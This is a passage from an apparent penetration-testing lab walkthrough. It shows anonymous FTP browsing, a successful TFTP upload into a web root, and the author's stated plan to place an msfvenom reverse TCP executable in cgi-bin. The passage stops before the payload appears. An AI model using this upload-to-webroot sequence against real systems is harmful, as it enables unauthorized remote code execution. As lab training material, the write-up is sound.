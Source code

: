 The version of `war-ftpd` that was running seemed to be vulnerable to a buffer overflow ([http://www.securityfocus.com/bid/22944/info](http://www.securityfocus.com/bid/22944/info)), but some manual attempts at causing the overflow were unsuccessful; suggesting this may actually be patched or a misidentification.

As the FTP server was accepting anonymous connections, I connected and began to take a look around. Although I didn't have any write permissions, I did find an interestingly named file in the `/log` directory, which suggested a TFTP service could be running:

```shell_session
ftp> cd log
250 CWD successful. "/log" is current directory.
ftp> dir
200 Port command successful
150 Opening data channel for directory list.
---------- 1 ftp ftp           2912 Aug 19 18:23 access_log
---------- 1 ftp ftp           1449 Aug 19 18:23 agent_log
---------- 1 ftp ftp              0 Aug 19 15:53 error_log
---------- 1 ftp ftp            674 Nov 01  2012 OpenTFTPServerMT.log
---------- 1 ftp ftp             35 Aug 19 18:22 referer_log
226 Transfer OK
```

With this in mind, I did a quick test to see if I could transfer a file via tftp:

```shell_session
root@kali:~# tftp 10.2.0.107
tftp> status
Connected to 10.2.0.107.
Mode: netascii Verbose: off Tracing: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> put ssp.c
Sent 9785 bytes in 0.0 seconds
```

As the file transferred successfully, I connected back to the FTP server, to see if the TFTP server was serving one of the same directories, and managed to find my file in the `/root` directory; which was also seemingly the root directory of the web server:

```shell_session
ftp> cd root
250 CWD successful. "/root" is current directory.
ftp> dir
200 Port command successful
150 Opening data channel for directory list.
drwxr-xr-x 1 ftp ftp              0 Feb 08  2013 cgi-bin
---------- 1 ftp ftp          14539 Oct 31  2012 index.html
---------- 1 ftp ftp          10161 Aug 19 19:39 ssp.c
226 Transfer OK
```

## Exploiting TFTP
As the TFTP service was pointing directly at the web root, I used `msfvenom` to create a reverse TCP executable, which I could place in the `cgi-bin` directory:
